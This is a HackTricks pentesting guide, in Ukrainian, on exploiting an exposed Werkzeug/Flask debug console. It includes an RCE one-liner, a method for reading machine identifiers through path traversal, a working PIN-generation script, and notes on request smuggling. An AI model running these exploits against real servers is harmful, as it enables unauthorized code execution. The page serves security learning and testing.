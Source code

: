 # Werkzeug / Flask Debug

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Отримайте перспективу хакера на ваші веб-додатки, мережу та хмару

**Знайдіть і повідомте про критичні, експлуатовані вразливості з реальним бізнес-імпактом.** Використовуйте наші 20+ спеціальних інструментів для картографування атакуючої поверхні, знаходження проблем безпеки, які дозволяють вам підвищити привілеї, і використовуйте автоматизовані експлойти для збору важливих доказів, перетворюючи вашу важку працю на переконливі звіти.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

Якщо налагодження активне, ви можете спробувати отримати доступ до `/console` і отримати RCE.
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

В інтернеті також є кілька експлойтів, таких як [цей](https://github.com/its-arun/Werkzeug-Debug-RCE) або один у metasploit.

## Захищено PIN-кодом - Перехід по шляху

В деяких випадках **`/console`** кінцева точка буде захищена PIN-кодом. Якщо у вас є **вразливість до обходу файлів**, ви можете витягти всю необхідну інформацію для генерації цього PIN-коду.

### Експлойт PIN-коду консолі Werkzeug

Примусьте сторінку помилки налагодження в додатку, щоб побачити це:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
Повідомлення щодо сценарію "консоль заблокована" з'являється при спробі доступу до інтерфейсу налагодження Werkzeug, що вказує на необхідність введення PIN-коду для розблокування консолі. Пропонується експлуатувати PIN-код консолі, аналізуючи алгоритм генерації PIN-коду у файлі ініціалізації налагодження Werkzeug (`__init__.py`). Механізм генерації PIN-коду можна вивчити з [**репозиторію вихідного коду Werkzeug**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py), хоча рекомендується отримати фактичний код сервера через вразливість обходу файлів через потенційні розбіжності версій.

Для експлуатації PIN-коду консолі потрібні два набори змінних: `probably_public_bits` та `private_bits`:

#### **`probably_public_bits`**

* **`username`**: Відноситься до користувача, який ініціював сесію Flask.
* **`modname`**: Зазвичай позначається як `flask.app`.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Зазвичай розв'язується в **Flask**.
* **`getattr(mod, '__file__', None)`**: Представляє повний шлях до `app.py` у каталозі Flask (наприклад, `/usr/local/lib/python3.5/dist-packages/flask/app.py`). Якщо `app.py` не застосовується, **спробуйте `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`**: Отримує MAC-адресу поточної машини, з `str(uuid.getnode())` перетворюючи її в десятковий формат.
* Щоб **визначити MAC-адресу сервера**, потрібно ідентифікувати активний мережевий інтерфейс, що використовується додатком (наприклад, `ens3`). У випадках невизначеності, **використовуйте `/proc/net/arp`** для знаходження ID пристрою, потім **витягніть MAC-адресу** з **`/sys/class/net/<device id>/address`**.
* Перетворення шістнадцяткової MAC-адреси в десяткову можна виконати, як показано нижче:

```python
# Приклад MAC-адреси: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: Об'єднує дані з `/etc/machine-id` або `/proc/sys/kernel/random/boot_id` з першим рядком `/proc/self/cgroup` після останнього слешу (`/`).

<details>

<summary>Код для `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

Після збору всіх необхідних даних, скрипт експлуатації може бути виконаний для генерації PIN-коду консолі Werkzeug:

Після збору всіх необхідних даних, скрипт експлуатації може бути виконаний для генерації PIN-коду консолі Werkzeug. Скрипт використовує зібрані `probably_public_bits` та `private_bits` для створення хешу, який потім підлягає подальшій обробці для отримання фінального PIN-коду. Нижче наведено код Python для виконання цього процесу:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
Цей скрипт генерує PIN, хешуючи конкатеновані біти, додаючи специфічні солі (`cookiesalt` та `pinsalt`) і форматуючи вихідні дані. Важливо зазначити, що фактичні значення для `probably_public_bits` та `private_bits` потрібно точно отримати з цільової системи, щоб забезпечити відповідність згенерованого PIN очікуваному в консолі Werkzeug.

{% hint style="success" %}
Якщо ви використовуєте **стару версію** Werkzeug, спробуйте змінити **алгоритм хешування на md5** замість sha1.
{% endhint %}

## Unicode символи Werkzeug

Як було помічено в [**цьому питанні**](https://github.com/pallets/werkzeug/issues/2833), Werkzeug не закриває запит з Unicode символами в заголовках. І, як пояснено в [**цьому описі**](https://mizu.re/post/twisty-python), це може викликати вразливість CL.0 Request Smuggling.

Це пов'язано з тим, що в Werkzeug можливо відправити деякі **Unicode** символи, і це призведе до **зламу** сервера. Однак, якщо HTTP з'єднання було створено з заголовком **`Connection: keep-alive`**, тіло запиту не буде прочитано, і з'єднання залишиться відкритим, тому **тіло** запиту буде розглядатися як **наступний HTTP запит**.

## Автоматизоване використання

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## Посилання

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Отримайте перспективу хакера щодо ваших веб-додатків, мережі та хмари

**Знайдіть і повідомте про критичні, експлуатовані вразливості з реальним бізнес-імпактом.** Використовуйте наші 20+ кастомних інструментів для картографування атакуючої поверхні, знаходження проблем безпеки, які дозволяють вам підвищити привілеї, і використовуйте автоматизовані експлойти для збору важливих доказів, перетворюючи вашу важку працю на переконливі звіти.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Вчіться та практикуйте Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
